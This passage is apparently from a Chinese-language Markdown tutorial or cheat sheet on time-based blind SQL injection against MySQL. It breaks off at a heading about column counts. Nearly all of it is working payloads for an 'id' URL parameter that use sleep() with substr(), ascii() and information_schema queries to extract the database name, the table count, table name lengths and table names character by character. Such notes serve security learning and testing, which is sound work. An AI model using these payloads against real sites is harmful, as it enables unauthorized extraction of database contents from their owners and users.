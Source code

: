 2. 库名

   ```
   ?id=1" and if(left(database(),1) = 'a',sleep(10),1)-- qwe
   ?id=1" and if(left(database(),3) = 'abx',sleep(10),1)-- qwe
   ………………
   ?id=1" and if(left(database(),12) = 'abxbsbdfbwhf',sleep(10),1)-- qwe
   ```

## 数据表

1. 查看当前数据表的个数

   ```mysql
   ?id=1" and if((select count(table_name) from information_schema.tables where table_schema=database())=3,sleep(10),1)-- qwe
   ```

2. 数据表长度

   1. 第一个数据表的长度

      ```mysql
      ?id=1" and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=长度,sleep(10),1)-- qwe
      ```

   2. 第二个数据表的长度

      ```mysql
      ?id=1" and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=长度,sleep(10),1)-- qwe
      ```

3. 数据表

   1. 第一个数据表

      ```mysql
      ?id=1" and if(ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1)) = ascii的字符数字,sleep(10),1)-- qwe
      ?id=1" and if(ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),2,1)) = ascii的字符数字,sleep(10),1)-- qwe
      ```

   2. 第二个数据表

      ```mysql
      ?id=1" and if(ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 1,1),1,1)) = ascii的字符数字,sleep(10),1)-- qwe
      ?id=1" and if(ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 1,1),2,1)) = ascii的字符数字,sleep(10),1)-- qwe
      ```

## 数据字段

1. 字段个数
